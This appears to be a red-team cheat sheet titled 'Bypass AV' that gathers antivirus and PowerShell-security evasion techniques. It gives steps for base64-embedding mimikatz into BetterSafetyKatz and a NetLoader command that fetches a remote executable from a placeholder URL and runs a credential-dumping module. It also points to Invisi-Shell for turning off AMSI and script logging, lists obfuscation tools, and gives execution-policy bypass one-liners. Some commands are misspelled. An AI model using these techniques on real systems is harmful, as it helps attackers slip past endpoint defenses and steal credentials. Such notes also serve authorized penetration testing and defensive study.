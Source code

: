 ```yaml
---
layout: app
title: "Bypass AV"
tags: ["bypass","evassion", "av", "DefenderCheck", "Netloader"]

---
```


# DefenderCheck

DefenderCheck It's to be used to detect all bytecode that could be detected by AV.
              
[https://github.com/matterpreter/DefenderCheck](https://github.com/matterpreter/DefenderCheck)

[Out-CompressedDll](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)

# AV Bypass

## BetterSafetyKatz
1. Download the latest releafe of mimikatz_trunk.zip
2. Convert file to base64


```powershell
$filename = "c:\temp\mimikatz_trunk.zip"
[Convert]::TOBase64String([IO.File]::ReadAllBytes($filename)) | clip
```
3. Modify [SafetyKatz](https://github.com/Flangvik/BetterSafetyKatz/blob/master/SafetyKatz/Program.cs) with above value

## Netloader

[https://github.com/Flangvik/NetLoader](https://github.com/Flangvik/NetLoader)

### Example

```powershell
Loader.exe -path http://xxxxx.exe skurlsa:ekeys exit
```

## Invisi-Shell

Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies.
[https://github.com/OmerYa/Invisi-Shell](Invisi-Shell)

## AMSITrigger

To Scan custom script to avoid signature
https://github.com/RythmStick/AMSITrigger

## Invoke-Obfuscation

To Obfuscate the AMSI bypass
[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

## Native

```powershell
powershell -ExecutionPolicy Bypass
powershell -c cmd
powershell -encodedcommand
$env:PSExecutionPolicyPreference="bypass"
```
